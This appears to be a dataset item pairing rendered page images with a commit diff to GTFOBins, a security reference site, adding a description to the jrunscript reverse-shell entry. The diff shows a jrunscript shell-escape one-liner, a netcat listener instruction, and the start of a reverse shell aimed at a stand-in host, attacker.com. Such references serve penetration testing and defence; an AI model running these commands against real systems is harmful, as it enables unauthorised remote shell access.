

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/jrunscript.md, in a window 1280 px wide and 900 px high. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Add description to jrunscript reverse-shell

```diff
--- a/_gtfobins/jrunscript.md
+++ b/_gtfobins/jrunscript.md
@@ -4,7 +4,8 @@ functions:
   shell:
     - code: jrunscript -e "exec('/bin/sh -c \$@|sh _ echo sh <$(tty) >$(tty) 2>$(tty)')"
   reverse-shell:
-    - code: |
+    - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
+      code: |
         export RHOST=attacker.com
         export RPORT=12345
         jrunscript -e 'var host='"'""$RHOST""'"'; var port='"$RPORT"';
```
